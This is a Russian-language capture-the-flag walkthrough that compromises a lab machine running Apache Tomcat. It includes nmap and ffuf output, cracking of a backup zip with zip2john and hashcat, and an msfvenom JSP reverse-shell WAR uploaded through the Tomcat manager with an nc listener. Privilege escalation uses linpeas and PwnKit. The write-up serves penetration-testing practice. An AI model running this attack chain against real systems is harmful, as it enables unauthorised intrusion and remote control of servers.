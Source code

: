 s
> [!tip]- Nmap
>nmap 192.168.68.61 --open -p- -Pn                                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-01 17:31 MSK
Nmap scan report for 192.168.68.61
Host is up (0.00059s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

> [!tip]- Nmap -sV
>22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
|   256 f2:a6:62:d7:e7:6a:94:be:7b:6b:a5:12:69:2e:fe:d7 (ECDSA)
|_  256 28:e1:0d:04:80:19:be:44:a6:48:73:aa:e8:6a:65:44 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat 9.0.53
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.53
MAC Address: 28:CD:C4:B8:39:67 (Chongqing Fugui Electronics)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernely

>[!tip]- Изучение сайтов
>
192.168.68.61:80 - пустой апач
92.168.68.61:8080 - Tomcat 
>##### ![[Pasted image 20241001175009.png]]  **FFUF  с seclists** 
==backup.zip==              
docs                    
docs/                   
examples                
examples/               
examples/servlets/servlet/RequestHeaderExample 
examples/servlets/servlet/CookieExample 
manager                
readme.txt              
manager/status/all      [
manager/                [
examples/jsp/snp/snoop.jsp 
manager/html       
examples                
host-manager            
manager                 
examples/jsp/index.html 
manager/html/*           
manager/jmxproxy/*       
manager/jmxproxy         
examples/jsp/snp/snoop.jsp 
examples/servlets/index.html 
manager/status/*        
manager/status.xsd         
 ==**Пользователи найденные в manager**==  
 admin 
 manager
 role1
 role
 root
 tomcat
 both
 QCC
 j2deployer
 ovwebusr 
 cxsdk
 ADMIN
 xampp

качаем backup.zip и получаем его hash:
zip2john backup.zip

запускаем hashcat: hashcat -a 0 - m 17220 'hash' rockyou.txt

получаем пароль для доступа к manager на сайте

создаем web-shell `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war` и загружаем его в manager

запускаем nc -nvlp PORT и переходим на сайт шелла

улучшаем шелл  python3 -c 'import pty;pty.spawn("/bin/bash")' и забираем флаг в /home/randy

проверяем файлы доступные для записи: find / -writable -type d 2>/dev/null и переходим в /tmp

стартуем хттп сервер и загружаем с него linpeas на машину жертвы. Выдаем права и запускаем

В ходе работы linpeas мы видим что можем использовать ранее найденный Dirty-Pipe. Попробуем запустить и получаем ошибку так нет компилятора gcc
Устанавливаем PwnKit и загружает на машину жертвы. 
Выдаем права для PwnKit,и запускаем
![[Pasted image 20241004184936.png]]
Забираем последний флаг










